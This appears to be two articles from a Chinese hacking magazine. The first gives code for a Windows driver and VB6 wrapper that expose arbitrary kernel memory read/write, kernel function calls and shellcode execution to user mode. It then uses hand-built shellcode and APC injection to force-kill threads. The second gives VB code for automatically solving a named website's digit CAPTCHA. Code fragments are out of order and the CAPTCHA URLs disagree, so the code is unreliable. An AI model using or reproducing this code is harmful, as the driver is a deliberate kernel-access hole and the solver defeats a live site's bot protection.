        .IoControl .CTL_CODE_GEN(&H806), VarPtr(ParamCount), 4, VarPtr(RetVal), 4
    End With
    InvokeKernelFunction = RetVal
End Function

'获得内核导出函数地址
Public Function GetKernelProcAddress(ByVal KernelFunction As String) As Long
    Dim RetVal As Long
    With DrvController
        .IoControl .CTL_CODE_GEN(&H807), VarPtr(KernelFunction), 4, VarPtr(RetVal), 4
    End With
    GetKernelProcAddress = RetVal
End Function

'运行内核 shellcode
Public Sub RunKernelShellCode(ByVal FuncPtr As Long)
    With DrvController
        .IoControl .CTL_CODE_GEN(&H808), VarPtr(FuncPtr), 4, 0, 0
    End With
End Sub
```

从 Ring 3 代码中是看不出任何设计思路的，精华全部在驱动里。首先定义 11 个 IOCTL。前八个被我称为功能 IOCTL，后三个被我称为数据 IOCTL：

```c
#define IOCTL_KMALLOC   CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS) // 申请内核内存
#define IOCTL_KFREE     CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS) // 释放内核内存
#define IOCTL_GETBUFF   CTL_CODE(FILE_DEVICE_UNKNOWN, 0x803, METHOD_BUFFERED, FILE_ANY_ACCESS) // 读内核内存
#define IOCTL_SETBUFF   CTL_CODE(FILE_DEVICE_UNKNOWN, 0x804, METHOD_BUFFERED, FILE_ANY_ACCESS) // 写内核内存
#define IOCTL_SETPARAMS CTL_CODE(FILE_DEVICE_UNKNOWN, 0x805, METHOD_BUFFERED, FILE_ANY_ACCESS) // 设置内核函数参数
#define IOCTL_INVOKE    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x806, METHOD_BUFFERED, FILE_ANY_ACCESS) // 调用内核函数
#define IOCTL_GETPRCADR CTL_CODE(FILE_DEVICE_UNKNOWN, 0x807, METHOD_BUFFERED, FILE_ANY_ACCESS) // 获得内核函数地址
#define IOCTL_CALLSC    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x808, METHOD_BUFFERED, FILE_ANY_ACCESS) // 运行内核 shellcode
#define IOCTL_SETADDR   CTL_CODE(FILE_DEVICE_UNKNOWN, 0x900, METHOD_BUFFERED, FILE_ANY_ACCESS) // 设置读/写地址
#define IOCTL_PARAMID   CTL_CODE(FILE_DEVICE_UNKNOWN, 0x901, METHOD_BUFFERED, FILE_ANY_ACCESS) // 设置参数ID
#define IOCTL_FUNCADDR  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x902, METHOD_BUFFERED, FILE_ANY_ACCESS) // 设置函数地址
```

申请内核内存和释放内核内存就是封装了一下 ExAllocatePool 和 ExFreePool。不过，申请的内核内存全部都是 NonPagedPool：

```c
case IOCTL_KMALLOC:
{
    __try {
        memcpy(&lTmp, pIoBuffer, uInSize); // lTmp=Length;
        lpv=(ULONG)ExAllocatePool(NonPagedPool, (SIZE_T)lTmp); // lpv=Buffer;
        RtlFillMemory((PVOID)lpv, (SIZE_T)lTmp, 0x0);
        memcpy(pIoBuffer, &lpv, uOutSize);
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER) {
        ;
    }
    break;
}

case IOCTL_KFREE:
{
    __try {
        memcpy(&lpv, pIoBuffer, sizeof(ULONG));
        ExFreePool((PVOID)lpv);
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER) {
        ;
    }
    break;
}
```

读/写内核内存我为了安全起见没有直接用 RtlCopyMemory，而是使用了别人给我的一份比较安全的内存读/写函数。虽然本质上也是使用 RtlCopyMemory，但是在使用之前做了很多工作来保证安全。在写内核内存中有两个自定义函数 WpOffAndToDpcLevel 和 WpOn，顾名思义，就是关闭打开内存写保护以及提升降低 IRQL 的，限于篇幅，代码就不贴出来了，请大家自行查看。

```c
NTSTATUS ReadKernelMemory(PVOID Address, ULONG Size, PVOID OutBuffer)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PMDL pMdl = 0;
    PVOID pAddress = 0;
    if (!Address) return st;
    pMdl = IoAllocateMdl(Address, Size, FALSE, FALSE, 0);
    ...
}
```

```c
if (pMdl)
{
    MmBuildMdlForNonPagedPool(pMdl);
    pAddress = MmGetSystemAddressForMdlSafe(pMdl, NormalPagePriority);
    if (pAddress)
    {
        __try {
            RtlCopyMemory(OutBuffer, pAddress, Size);
            st = STATUS_SUCCESS;
        }
        __except(EXCEPTION_EXECUTE_HANDLER) {
            ;
        }
    }
    IoFreeMdl(pMdl);
}
return st;

NTSTATUS WriteKernelMemory(PVOID Address, ULONG Size, PVOID InBuffer)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PMDL pMdl = 0;
    PVOID pAddress = 0;
    KIRQL OldIrql;
    if (!Address) return st;
    pMdl = IoAllocateMdl(Address, Size, FALSE, FALSE, 0);
    if (pMdl)
    {
        MmBuildMdlForNonPagedPool(pMdl);
        pAddress = MmGetSystemAddressForMdlSafe(pMdl, NormalPagePriority);
        if (pAddress)
        {
            __try {
                OldIrql = WpOffAndToDpcLevel();
                RtlCopyMemory(pAddress, InBuffer, Size);
                WpOn(OldIrql);
                st = STATUS_SUCCESS;
            }
            __except(EXCEPTION_EXECUTE_HANDLER) {
                ;
            }
        }
        IoFreeMdl(pMdl);
    }
    return st;
}
```

设置内核函数的参数就是把内核函数的参数放到一个 long 数组里，因为尽管内核函数的数据类型千变万化，但是基本都是小于等于四个字节的，所以放到 long 数组里就行了。调用内核函数就是精华部分了，我使用了内嵌汇编的方法实现。由于绝大多数内核函数都是 __stdcall 方式的，从右至左 push 参数，然后 call 函数地址即可。如果有返回值，返回值通常在 eax 里。所以我们把从零开始、从左到右放在数组里的参数使用 for 语句倒序 push 进栈，然后 call 通过函数名获得函数地址即可（前提是地址不为 0）。函数调用完毕后，从 eax 取走返回值。代码如下：

```c
LONG KernelApiParams[20]={0}; // 函数最多能有 20 个参数
case IOCTL_SETPARAMS:
{
    __try
    {
        g_TempData = *(ULONG *)pIoBuffer;
        KernelApiParams[ParamIdSet] = (LONG)g_TempData;
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}

LONG Invoke(ULONG pAPI, LONG ParamCount)
{
    LONG i=0,myrt=0,tmp=0;
    for(i=ParamCount-1;i>=0;i--)
    {
        tmp=KernelApiParams[i];
        __asm push tmp
    }
    __asm
    {
        call pAPI
        mov myrt,eax
    }
    return myrt;
}

case IOCTL_INVOKE:
{
    __try
    {
        g_TempData = *(ULONG *)pIoBuffer;
        fRet=Invoke(KernelApiAddr, g_TempData);
        memcpy(pIoBuffer,&fRet,uOutSize);
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}
```

```c
PVOID GetFunctionAddr(PCWSTR FunctionName)
{
    char lpszFuncName[260]={0};
    PVOID retval = NULL;
    UNICODE_STRING UniCodeFunctionName;
    RtlInitUnicodeString(&UniCodeFunctionName, FunctionName);
    retval = MmGetSystemRoutineAddress(&UniCodeFunctionName);
    if(retval==NULL)
    {
        UnicodeToChar(&UniCodeFunctionName, lpszFuncName);
        return (PVOID)GetSSDTRealAddr(GetSysCallIndex(lpszFuncName));
    }
    else
        return retval;
}

case IOCTL_GETPRCADR:
{
    __try
    {
        l_KernelApiName=*(PCWSTR *)pIoBuffer;
        fRet=(ULONG)GetFunctionAddr(l_KernelApiName);
        memcpy(pIoBuffer,&fRet,uOutSize);
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}

case IOCTL_CALLSC:
{
    __try
    {
        g_TempData = *(ULONG *)pIoBuffer;
        __asm call g_TempData
        status = STATUS_SUCCESS;
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        ;
    }
    break;
}
```

获得内核函数地址就是传内核函数的名字进入驱动，然后把地址传回 Ring 3。获得 ntoskrnl.exe 的导出函数直接用 MmGetSystemRoutineAddress，但是要通过 SSDT 函数名获得 SSDT 函数地址还是要颇费周折的。我在 xacker 的帮助下，解决了这个问题。不过里面的 GetSSDTRealAddr、GetSysCallIndex 等函数太长，而且和本文的关系不密切，就不把代码贴出来了，请各位自行查看源码。而调用内核 ShellCode 就是传内核 ShellCode 所在地址进入驱动，然后通过 call 来执行。

接下来看使用例子。分别是调用 PsGetProcessInheritedFromUniqueProcessId（根据 EPROCESS 获得父进程 ID，返回值在 eax）、调用 PsLookupProcessByProcessId（根据 PID 获得 EPROCESS，返回值在参数里）。第三、第四个是综合应用，分别在用户态使用 KeInsertQueueApc 和 KiInsertQueueApc 结束线程。当然第三、第四个就不仅仅是 Ring 3 调用驱动函数了，还……

# 涉及 ShellCode 的编写

- 1. 调用 `PsGetProcessInheritedFromUniqueProcessId`

```vb
Private Sub Command1_Click()
    SetKernelFunctionParams 0, CLng(Val("&H" & InputBox("Input EPROCESS:", "HEX WITHOUT 0x")))
    MsgBox InvokeKernelFunction(GetKernelProcAddress("PsGetProcessInheritedFromUniqueProcessId"), 1), , "Parent PID"
End Sub
```

输入 EPROCESS（十六进制，无 0x 前缀），就能获得此进程的父进程 ID。

- 2. 调用 `PsLookupProcessByProcessId`

```vb
Private Sub Command2_Click()
    Dim kb As Long, eproc As Long
    kb = AllocateKernelBuffer(4) ' MsgBox Hex$(kb), "kernel buffer address"
    SetKernelFunctionParams 0, CLng(InputBox("input PID:", "DEC"))
    SetKernelFunctionParams 1, kb ' 第二个参数，PEPROCESS* 类型
    InvokeKernelFunction GetKernelProcAddress("PsLookupProcessByProcessId"), 2
    ReadKernelMemory kb, 4, VarPtr(eproc)
    FreeKernelBuffer kb
    MsgBox Hex$(eproc), "EPROCESS"
End Sub
```

输入 PID，就能获得 EPROCESS。

- 3. 调用 `KeInsertQueueApc` 结束线程

在看 VB 版代码之前，请先看一下 C 版的代码是如何写的：

```c
VOID ApcCallBack(PKAPC Apc, PKNORMAL_ROUTINE *NormalRoutine, PVOID *NormalContext, PVOID *SystemArgument1, PVOID *SystemArgument2)
{
    PsTerminateSystemThread(STATUS_SUCCESS);
}

NTSTATUS ForceTerminateThread(PETHREAD Thread, ULONG EToffSET)
{
    ULONG SystemThreadFlag = 0x10;
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PKAPC pApc = 0;
    if ((MmIsAddressValid((PVOID)Thread) == TRUE)) {
        RtlMoveMemory((PVOID)((ULONG)Thread + EToffSET), &SystemThreadFlag, 4);
        pApc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
        if (pApc) {
            KeInitializeApc(pApc, Thread, OriginalApcEnvironment, ApcCallBack, 0, 0, KernelMode, 0);
            KeInsertQueueApc(pApc, pApc, 0, 2);
            ExFreePool(pApc);
            st = STATUS_SUCCESS;
        }
    }
    return st;
}
```

```c
KeInitializeApc(pApc, Thread, OriginalApcEnvironment, ApcCallBack, 0, 0, KernelMode, 0);
// OriginalApcEnvironment=0, KernelMode=0
KeInsertQueueApc(pApc, pApc, 0, 2);
ExFreePool(pApc);
...
return st;
```

这段代码自从 2007 年就开始在网络上流传，相信大家都很熟悉了。我们面临的问题是如何实现 `ApcCallBack` 函数。我的解决方案是使用 shellcode 实现。由于 `ApcCallBack` 的代码很简短，所以翻译成汇编代码很简单（准确地说是变成机器码很简单）：

| 汇编 | 机器码 |
|---|---|
| xor eax, eax | 31 C0 |
| push eax | 50 |
| call PsTerminateSystemThread | e8 xx xx xx xx |
| ret | C3 |

在汇编代码里的四个 xx 就是要我们计算的地址，它可以根据公式：机器码 = 目标地址 - 原始地址 - 5 来计算。其中目标地址就是 `PsTerminateSystemThread` 的地址，原始地址就是 `ApcCallBack` 起始地址 + 2。动态创建 `ApcCallBack` 的代码如下：

```vb
Public Sub Create_ApcCallBack_Shellcode()
    Dim sc(8) As Byte
    Dim ExFreePool As Long, PsTerminateSystemThread As Long, CallCode As Long
    'create buffer and get information
    ApcCallBack = AllocateKernelBuffer(12) 'kernel apccallback address
    PsTerminateSystemThread = GetKernelProcAddress("PsTerminateSystemThread")
    'fill and calc shellcode
    sc(0) = &H31
    sc(1) = &HC0
    sc(2) = &H50
    sc(3) = &HE8
    sc(7) = &HC3
    CallCode = PsTerminateSystemThread - (ApcCallBack + 3) - 5
    RtlMoveMemory VarPtr(sc(4)), VarPtr(CallCode), 4
    ModifyKernelMemory ApcCallBack, 8, VarPtr(sc(0))
End Sub

Private Function NtBuildNumber() As Long
    Dim ovi As OSVERSIONINFO
    ovi.dwOSVersionInfoSize = Len(ovi)
    GetVersionExA ovi
    NtBuildNumber = ovi.dwBuildNumber
End Function

Public Function GetCrossThreadFlagsOffset() As Long
    Dim dwBN As Long, dwOS As Long
    dwBN = NtBuildNumber()
    Select Case dwBN
        Case 2600: dwOS = &H248
        Case 3790: dwOS = &H240
        Case 6000, 6001, 6002: dwOS = &H260
        Case 7600: dwOS = &H280
    End Select
    GetCrossThreadFlagsOffset = dwOS
End Function
```

```vb
st = 0 'STATUS_SUCCESS
End If
ForceTerminateThread = st
End Function
```

当然你也可以动态确定 `CrossThreadFlags` 的偏移，但是我没有这么做。因为我写代码使用的方法取决于这种代码风险大小的权衡考虑，动态确定 `CrossThreadFlags` 偏移要读取内核内存，会有蓝屏的风险（虽然很小），而硬编码则一定不会，所以我选择了用硬编码的方法。实现调用过程的代码如下：

```vb
Private Declare Sub RtlMoveMemory Lib "kernel32.dll" (
    ByVal Destination As Long,
    ByVal Source As Long,
    ByVal Length As Long)

Public ApcCallBack As Long

Private Function MmIsAddressValid(ByVal ptr As Long) As Long
    SetKernelFunctionParams 0, ptr
    MmIsAddressValid = InvokeKernelFunction("MmIsAddressValid", 1)
End Function

Private Sub KeInitializeApc(ByVal p1 As Long, ByVal p2 As Long, ByVal p3 As Long, ByVal p4 As Long, ByVal p5 As Long, ByVal p6 As Long, ByVal p7 As Long, ByVal p8 As Long)
    SetKernelFunctionParams 0, p1
    SetKernelFunctionParams 1, p2
    SetKernelFunctionParams 2, p3
    SetKernelFunctionParams 3, p4
    SetKernelFunctionParams 4, p5
    SetKernelFunctionParams 5, p6
    SetKernelFunctionParams 6, p7
    SetKernelFunctionParams 7, p8
    InvokeKernelFunction GetKernelProcAddress("KeInitializeApc"), 8
End Sub

Private Sub KeInsertQueueApc(ByVal p1 As Long, ByVal p2 As Long, ByVal p3 As Long, ByVal p4 As Long)
    SetKernelFunctionParams 0, p1
    SetKernelFunctionParams 1, p2
    SetKernelFunctionParams 2, p3
    SetKernelFunctionParams 3, p4
    InvokeKernelFunction GetKernelProcAddress("KeInsertQueueApc"), 4
End Sub

Public Function ForceTerminateThread(ByVal Thread As Long, ByVal Offset As Long) As Long
    Dim SystemThreadFlag As Long: SystemThreadFlag = &H10
    Dim st As Long: st = &HC0000001
    Dim pApc As Long: pApc = 0

    If MmIsAddressValid(Thread) <> 0 Then
        ModifyKernelMemory Thread + Offset, 4, VarPtr(SystemThreadFlag)
        pApc = AllocateKernelBuffer(48)
        If pApc <> 0 Then
            KeInitializeApc pApc, Thread, 0, ApcCallBack, 0, 0, 0, 0
            KeInsertQueueApc pApc, pApc, 0, 2
            FreeKernelBuffer pApc
        End If
    End If
End Function
```

调用时这么写（输入 ETHREAD，十六进制，无 0x 前缀）：

```vb
Private Sub Command5_Click()
    If ApcCallBack = 0 Then
        Call Create_ApcCallBack_Shellcode
    End If
    ForceTerminateThread CLng(Val("&H" & InputBox("Input ETHREAD:", "HEX WITHOUT 0x"))), GetCrossThreadFlagsOffset()
End Sub
```

## 4. 调用 KInsertQueueApc 结束线程

调用 `KInsertQueueApc` 结束线程和调用 `KeInsertQueueApc` 结束线程大同小异，唯一的不同在于 `KInsertQueueApc` 是 FASTCALL 调用约定的，所以调用 `KInsertQueueApc` 要用 ShellCode 实现。在 FASTCALL 约定下，函数的前两个参数分别放在 `ecx`、`edx` 寄存器中，后续的参数从右到左放在栈中。以下是 `KInsertQueueApc` 的原型：

```c
typedef VOID (__fastcall *KINSERTQUEUEAPC)(
    PKAPC Apc,
    KPRIORITY Increment
);
```

所以我们这么调用 `KInsertQueueApc`：

```asm
mov ecx, aabbccdd        ; b9 dd cc bb aa
mov edx, 00000000        ; ba 00 00 00 00
call KInsertQueueApc     ; e8 xx xx xx xx
```

当然啦，`e8` 后面的机器码是需要计算的：

```vb
Private Sub KInsertQueueApc(ByVal p1 As Long, ByVal p2 As Long)
    Dim KiBuff As Long, sc(14) As Byte, callcode As Long
    KiBuff = AllocateKernelBuffer(16)
    sc(0) = &HB9
    sc(5) = &HBA
    sc(10) = &HE8
    callcode = AddressOfKiInsertQueueApc - (KiBuff + 10) - 5

    RtlMoveMemory VarPtr(sc(1)), VarPtr(p1), 4
    RtlMoveMemory VarPtr(sc(6)), VarPtr(p2), 4
    RtlMoveMemory VarPtr(sc(11)), VarPtr(callcode), 4
    ModifyKernelMemory KiBuff, 15, VarPtr(sc(0))
    RunKernelShellCode KiBuff
    FreeKernelBuffer KiBuff
End Sub
```

最后，再把 `ForceTerminateThread` 中的那句 `[KeInsertQueueApc pApc, pApc, 0, 2]` 换成这句：`[KInsertQueueApc pApc, 0]` 即可。在调用的时候，输入 `KInsertQueueApc` 的地址（可以由 Windbg 获得），和线程的 ETHREAD 即可：

```vb
Private Sub Command6_Click()
    If ApcCallBack = 0 Then
        Call Create_ApcCallBack_Shellcode
    End If
    If AddressOfKiInsertQueueApc = 0 Then
        AddressOfKiInsertQueueApc = CLng(Val("&H" & InputBox("Input KiInsertQueueApc Address:", "HEX WITHOUT 0x")))
    End If
    KiTerminateThread CLng(Val("&H" & InputBox("Input ETHREAD:", "HEX WITHOUT 0x"))), GetCrossThreadFlagsOffset()
End Sub
```

代码的效果和直接使用驱动差不多，各位读者可以自己测试。可以看我的录像，在我把这份代码给某网友进行内部测试时，他很激动，说“终于可以用 VB 写驱动代码”了！当然，这个说法是很不准确的……

因为有些代码是绝对不能用这个组件调用的，比如修改了中断请求级别、控制寄存器值的代码。如果试图使用我的组件调用，那么唯一的后果就是蓝屏。还有一种就是有大量结构体赋值的代码，比如发送 IRP 删除文件，用我的组件写就十分麻烦，失去了它方便快捷的意义。另外我还曾想做一个这个组件的 x64 版本，但是 64 位的 C 编译器（包括 WDK）都不允许直接内嵌汇编，这给我们在 Ring3 调用内核函数增加了不少麻烦，不过我相信解决办法总是会有的。以后我还会另写一篇文章来阐述。最后还是那句老话，笔者水平有限，文章难免有错漏之处，还请各位读者不吝赐教。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：VB，验证码，倾斜字符


# VB 识别倾斜验证码方法讨论

图/文 李劼杰

前面介绍了基于模板库匹配的方法，本篇进一步讨论倾斜字符的验证码识别，以阿里通的验证码为例。它的验证码 URL 为：http://account.alicall.com/fujice.csp?0.436909，5TU19899381697U5T，后面一串数字是随机数。验证码显示效果如图 1 所示。


## 分析验证码

- ① 它的大小为 72 像素×18 像素，由 4 个纯数字组成。  
- ② 验证码为单一的色彩，但存在干扰像素，需要先滤除。  
- ③ 观察左上和右下的数字 1，可知数字存在一定的倾斜，但倾斜程度有限，不会越界到另一个字符区域。  
- ④ 每个数字都固定在 18×18 的区域内。

识别该类验证码可采用如下方法：首先将验证码分割成若干区域，然后分别统计特定区域内有效像素的总数。在匹配时，寻找各区域内总数差异最小的字符即可。示例验证码中，虽然数字产生了一定的倾斜，但位于上部的像素点仍旧处于图片上部，像素点的大体分布没有改变。

18×18 方格的深色点的总数，以此作为比对的依据。


图 2 像素点分布

本文作为示例，我们将一个数字横向分割为上、中、下三部分，分别统计像素点个数；在纵向上分割为左、右两部分，统计像素点个数。

根据此基本方法，使用 VB6.0 编写一个简单的识别程序。

## 编码实现

程序主窗体的基本布局如图 3 所示。


图 3 窗体的基本布局

所添加的 4 个按钮如以下表格所示：

| Name | Caption |
|---|---|
| CmdDown | 下载 |
| CmdClear | 二值化 && 除噪 |
| CmdWriteData | 写入文件 |
| CmdResult | 识别 |

2 个 PictureBox 从上至下分别是：Picture1、Picture2。将它们的 ScaleMode 属性都设置为 3-Pixel，使用像素作为长度单位。

此外，添加一个 Microsoft Internet Transfer 控件，用于下载验证码，Name 默认 Inet1。添加一个用于显示识别结果的 Label，Name 设置为 lblResult。一个用于输入字符串的 TextBox，Name 设置为 TxtChar。我们把字符串输入到这个文本框，点击“写入文件”按钮可将当前 4 个数字的统计结果写入 Settings.ini 文件。

除噪采用的方法在以前的文章中已介绍：一个点周围的 8 个点若都不是黑色点，说明该点是孤立的噪点，直接将其颜色设定为白色。

首先为“下载”按钮添加如下的简短代码：

```vb
Private Sub CmdDown_Click()
'下载按钮暂时变为不可用
CmdDown.Enabled = False
'声明用于保存图片二进制数据的数组
Dim picBytes() As Byte
picBytes = Inet1.OpenURL("http://account.aicall.com/fujiae.asp?...", icByteArray)
While Inet1.StillExecuting
    DoEvents
Wend
'将图片数据写入 Test.bmp 文件
Open App.Path & "\test.bmp" For Binary As #1
Put #1, , picBytes
Close #1
'将 Test.bmp 载入 Picture1
Picture1.Picture = LoadPicture(App.Path & "\Test.bmp")
'按钮恢复可用
CmdDown.Enabled = True
End Sub
```

用户每次单击“下载”，都将下载一张新的验证码图片，并显示到 Picture1 控件中。

二值化是将原先的彩色图片转换为黑白两色的图片。原图中深色点设置为黑色，浅色的点设置为白色。颜色深浅由其 RGB 值来筛选。示例程序采用 40 作为临界值。参考下面的代码：

```vb
Private Sub CmdClear_Click()
'二值化和除噪
Picture2.Cls
'把原图装入 Picture2
Picture2.Picture = Picture1.Picture
Dim X As Integer
Dim Y As Integer
Dim Ret
'深色点置黑，浅色点置白
For Y = 0 To Picture2.ScaleHeight - 1
    For X = 0 To Picture2.ScaleWidth - 1
        Ret = ColorRGB(Picture1.Point(X, Y))
        If Ret(0) < 40 Or Ret(1) < 40 Or Ret(2) < 40 Then
            Picture2.PSet (X, Y), vbBlack
        Else
            Picture2.PSet (X, Y), vbWhite
        End If
    Next X
Next Y
'除去噪点
For Y = 0 To Picture2.ScaleHeight - 1
    For X = 0 To Picture2.ScaleWidth - 1
        If Picture2.Point(X, Y) = vbBlack Then
            '...邻域判断...
        End If
    Next X
Next Y
End Sub
```

```vb
If Picture2.Point(X, Y - 1) = vbBlack Then GoTo NextPoint
If Picture2.Point(X, Y + 1) = vbBlack Then GoTo NextPoint
'一个点的左右两侧是否存在黑点
If Picture2.Point(X - 1, Y) = vbBlack Then GoTo NextPoint
If Picture2.Point(X + 1, Y) = vbBlack Then GoTo NextPoint
'一个点下面的 3 个点是否存在黑点
If Picture2.Point(X - 1, Y + 1) = vbBlack Then GoTo NextPoint
If Picture2.Point(X, Y + 1) = vbBlack Then GoTo NextPoint
If Picture2.Point(X + 1, Y + 1) = vbBlack Then GoTo NextPoint
'如果周围不存在黑点，把该点设为白色
Picture2.PSet (X, Y), vbWhite
End If
NextPoint:
Next X
Next Y
'为了查看除噪的效果，可以使用下面的语句将图片保存为 test2.bmp
SavePicture Picture2.Image, "test2.bmp"
End Sub
```

```vb
'中部
For Y = 6 To 11
    If Picture2.Point(X, Y) = vbBlack Then
        nCount_Middle = nCount_Middle + 1
    End If
Next Y

'下部
For Y = 12 To 17
    If Picture2.Point(X, Y) = vbBlack Then
        nCount_Down = nCount_Down + 1
    End If
Next Y

Next X
For Y = 0 To 17
'左侧
For X = 0 To 8
    If Picture2.Point(X, Y) = vbBlack Then
        nCount_Left = nCount_Left + 1
    End If
Next X

'右侧
For X = 9 To 17
    If Picture2.Point(X, Y) = vbBlack Then
        nCount_Right = nCount_Right + 1
    End If
Next X
Next Y
```

ColorRGB 函数的内容在之前的文章中已有介绍，此处不再赘述；它的作用是将一个 16 进制颜色值转换为 RGB，返回一个元素个数为 3 的数组。除去噪点的方法跟《VB 识别动网中文字验证码》一文采用的方法相同。

用户分辨出验证码的内容，输入文本框，程序将统计结果写入程序目录下的 Settings.ini。为“写入文件”按钮添加下述代码：

```vb
'先二值化和除噪
Call CmdClear_Click
Dim X As Integer
Dim Y As Integer
Dim i As Integer
Dim nCount_Up As Integer
Dim nCount_Down As Integer
Dim nCount_Middle As Integer
Dim nCount_Left As Integer
Dim nCount_Right As Integer
'循环扫描四个字符
For i = 0 To 3
    '有用像素点总数初始为0
    nCount_Up = 0
    nCount_Middle = 0
    nCount_Down = 0
    nCount_Left = 0
    nCount_Right = 0
    '扫描 18*18 方格
    For X = i * 18 To i * 18 + 17
        '上部
        For Y = 0 To 5
            If Picture2.Point(X, Y) = vbBlack Then
                nCount_Up = nCount_Up + 1
            End If
        Next Y
```

```vb
'写入 Settings.ini
If GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Left") = "" Then
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Up"), nCount_Up, App.Path & "\Settings.ini"
Else
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Up"), (nCount_Up + GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Left")) * 0.5, App.Path & "\Settings.ini"
End If

If GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Middle") = "" Then
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Middle"), nCount_Middle, App.Path & "\Settings.ini"
Else
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Middle"), (nCount_Middle + GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Middle")) * 0.5, App.Path & "\Settings.ini"
End If

If GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Down") = "" Then
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Down"), nCount_Down, App.Path & "\Settings.ini"
Else
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Down"), (nCount_Down + GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Down")) * 0.5, App.Path & "\Settings.ini"
End If
```

```vb
End If
If GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Left") = "" Then
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Left"), nCount_Left, App.Path & "\Settings.ini"
Else
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Left"), (nCount_Left + GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Left")) * 0.5, App.Path & "\Settings.ini"
End If

If GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Right") = "" Then
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Right"), nCount_Right, App.Path & "\Settings.ini"
Else
    WritePrivateProfileString "Count", CStr("Number" & Mid(TxtChar, i + 1, 1) & "_Right"), (nCount_Right + GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Right")) * 0.5, App.Path & "\Settings.ini"
End If
Next i
End Sub
```

在写入统计值时，如果 Settings.ini 不存在该键值，直接写入；否则，读出原来的键值，跟当前统计值求和再取平均值。在采集样本的时候，可以尽量选择数字倾斜度不大的情况。

有了统计结果，识别的过程比较简单。为“识别”按钮添加部分代码：

```vb
Private Sub CmdResult_Click()
    Call CmdClear_Click   '二值化、除噪
    Dim Result(0 To 3) As Integer
    Dim X As Integer
    Dim Y As Integer
    Dim Ret
    Dim i As Integer
    Dim nCount_Up As Integer
    Dim nCount_Down As Integer
    Dim nCount_Middle As Integer
    Dim nCount_Left As Integer
    Dim nCount_Right As Integer

    '循环扫描完四个字符
    For i = 0 To 3
        nCount_Up = 0      '有用像素点总数初始化为0
        nCount_Down = 0
        nCount_Middle = 0
        nCount_Left = 0
        nCount_Right = 0

        '扫描18*18方格
        For X = i * 18 To i * 18 + 17
            '上部
            For Y = 0 To 5
                If Picture2.Point(X, Y) = vbBlack Then
                    nCount_Up = nCount_Up + 1
                End If
            Next Y
            '中部
            For Y = 6 To 11
                ...
            Next Y
            '下部
            For Y = 12 To 17
                ...
            Next Y
        Next X
    Next i
End Sub
```

```vb
If Picture2.Point(X, Y) = vbBlack Then
    nCount_Middle = nCount_Middle + 1   '黑色像素点总数+1
End If
Next Y

'下部
For Y = 12 To 17
    If Picture2.Point(X, Y) = vbBlack Then
        nCount_Down = nCount_Down + 1   '黑色像素点总数+1
    End If
Next Y
Next X

For Y = 0 To 17
    '左侧
    For X = 0 To 8
        If Picture2.Point(X, Y) = vbBlack Then
            nCount_Left = nCount_Left + 1
        End If
    Next X

    '右侧
    For X = 9 To 17
        If Picture2.Point(X, Y) = vbBlack Then
            nCount_Right = nCount_Right + 1
        End If
    Next X
Next Y

Debug.Print nCount_Up
Debug.Print nCount_Middle
Debug.Print nCount_Down
Debug.Print nCount_Left
Debug.Print nCount_Right

'比较像素点最接近的点
Dim j As Integer
Dim MinVal As Integer
Dim Total As Integer
MinVal = 1000
For j = 0 To 9
    Total = 0
    If Abs(nCount_Up - Number_Count_Up(j)) > 6 Then
        Total = Total + Abs(nCount_Up - Number_Count_Up(j)) * 2
    Else
        Total = Total + Abs(nCount_Up - Number_Count_Up(j))
    End If

    If Abs(nCount_Middle - Number_Count_Middle(j)) > 6 Then
        Total = Total + Abs(nCount_Middle - Number_Count_Middle(j)) * 2
    Else
        Total = Total + Abs(nCount_Middle - Number_Count_Middle(j))
    End If

    If Abs(nCount_Down - Number_Count_Down(j)) > 6 Then
        Total = Total + Abs(nCount_Down - Number_Count_Down(j)) * 2
    Else
        Total = Total + Abs(nCount_Down - Number_Count_Down(j))
    End If

    If Abs(nCount_Left - Number_Count_Left(j)) > 6 Then
        Total = Total + Abs(nCount_Left - Number_Count_Left(j)) * 2
    Else
